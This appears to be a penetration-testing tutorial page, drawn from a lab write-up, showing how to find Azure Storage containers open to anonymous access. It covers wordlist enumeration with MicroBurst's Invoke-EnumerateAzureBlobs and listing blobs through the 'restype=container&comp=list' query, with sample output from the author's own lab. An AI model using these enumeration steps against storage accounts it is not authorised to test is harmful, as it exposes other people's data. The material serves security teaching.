 ```yaml
---
author: andrei8055
title: Anonymous Blob Access
description: Finding and accessing files stored in Azure Storage Accounts without authentication.
---
```


Original Research: [0xPwN Blog - Create an Azure Vulnerable Lab: Part #1 – Anonymous Blob Access](https://0xpwn.wordpress.com/2022/03/05/setting-up-an-azure-pentest-lab-part-1-anonymous-blob-access/) 

"Storage Accounts" is the service provided by Azure to store data in the cloud. A storage account can used to store:

- Blobs
- File shares
- Tables
- Queues
- VM disks

![Azure Storage Account](https://www.partech.nl/-/media/habitat/images/blog/azure-storage-account/azure-storage-types.ashx?mw=900&hash=555BFCDE52A79D19432AA476A2935234)

For this tutorial, we will focus on the Blobs section. Blobs are stored within a container, and we can have multiple containers within a storage account. When we create a container, Azure will ask on the permissions that we grant for public access. We can chose between:

- Private Access – no anonymous access is allowed
- Blob Access – we can access the blobs anonymously, as long as we know the full URL (container name + blob name)
- Container Access – we can access the blobs anonymously, as long we know the container name (directory listing is enabled, and we can see all the files stored inside the container)

As you might have guessed, granting Container Access permission can be easily abused to download all the files stored within the container without any permissions as the only things required to be known are the storage account name and the container name, both of which can be enumerated with wordlists.

## Exploiting Anonymous Blob Access

Now, there are thousands of articles explaining how this can be abused and how to search for insecure storage in Azure, but to make things easier I’ll do a TL:DR. One of the easiest way is to use MicroBurst, provide the storage account name to search for, and it’ll check if the containers exists based on a wordlist saved in the Misc/permutations.txt:

```
PS > import-module .\MicroBurst.psm1
PS> Invoke-EnumerateAzureBlobs -Base 0xpwnstorageacc
Found Storage Account - 0xpwnstorageacc.blob.core.windows.net
Found Container - 0xpwnstorageacc.blob.core.windows.net/public
Public File Available: https://0xpwnstorageacc.blob.core.windows.net/public/flag.txt
```

Alternatively adding ```?restype=container&comp=list``` after the container name:
```
https://<storage_account>.blob.core.windows.net/<container>?restype=container&comp=list
```
Output:
```

<EnumerationResults ContainerName="https://0xpwnstorageacc.blob.core.windows.net/public">
	<Blobs>
		<Blob>
			<Name>flag.txt</Name>
			<Url>
https://0xpwnstorageacc.blob.core.windows.net/public/flag.txt
</Url>
			<Properties>
				<Last-Modified>Sat, 05 Mar 2022 18:02:14 GMT</Last-Modified>
				<Etag>0x8D9FED247B7848D</Etag>
				<Content-Length>34</Content-Length>
				<Content-Type>text/plain</Content-Type>
				<Content-Encoding/>
				<Content-Language/>
				<Content-MD5>lur6Yvd173x6Zl1HUGvtag==</Content-MD5>
				<Cache-Control/>
				<BlobType>BlockBlob</BlobType>
				<LeaseStatus>unlocked</LeaseStatus>
			</Properties>
		</Blob>
	</Blobs>
	<NextMarker/>
</EnumerationResults>
```
